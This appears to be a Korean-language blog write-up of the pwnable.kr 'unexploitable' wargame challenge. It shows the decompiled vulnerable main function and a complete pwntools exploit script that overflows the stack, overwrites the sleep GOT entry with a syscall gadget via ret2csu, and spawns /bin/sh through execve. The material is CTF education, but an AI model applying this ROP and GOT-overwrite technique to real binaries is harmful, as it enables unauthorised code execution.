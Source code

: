 ```yaml
---
title: "[pwnable.kr]unexploitable"
date: 2020-1-14
ctf: Pwnable.kr
layout: post
---
```


sleep(3) 있고 read로 입력받는 바이너리다. 근데 1295나 입력받는다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-10h]

  sleep(3u);
  return read(0, &buf, 1295uLL);
}
```

내 원래 익스 시나리오는 sleep@got 1바이트 syscall로 덮고 아무거나 leak해주고 main에 입력받는 곳으로 리턴해주고 원샷 날리려는 시나리오였는데 립씨 릭하고 다 했는데 메인에서 원샷 안먹는다 ㅡㅡ 화난다 정말 매우 화난다 ㅎㅎ.. 

그래서 다른 방법으로 rax 컨트롤해서 `execve` 로 풀었다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

def chain(r12,r13,r14,r15,ret):
	c = p64(0) # rsp + 8
	c += p64(0) # rbx
	c += p64(1) # rbp
	c += p64(r12) # call
	c += p64(r13) # edi
	c += p64(r14) # rsi
	c += p64(r15) # rdx
	c += p64(ret)
	return c

s = ssh("unexploitable", "pwnable.kr", port=2222, password="guest")
e = ELF('./unexploitable')
p = s.process('./unexploitable')
libc = e.libc
csu_call = 0x00000000004005D0
csu_pop = 0x00000000004005E6
syscall = 0x0000000000400560

payload = 'A'*24
payload += p64(csu_pop)
payload += chain(e.got['read'],0,e.bss()+0x100,10,csu_call)
payload += chain(e.got['read'],0,e.got['sleep'],1,csu_call)
payload += chain(e.got['read'],0,e.bss(),59,csu_call)
payload += chain(e.got['sleep'],e.bss()+0x100,0,0,csu_call)
p.send(payload)
sleep(3)

p.sendline('/bin/sh\x00')
p.send('\xee')
p.send('A'*59)

p.interactive()
```

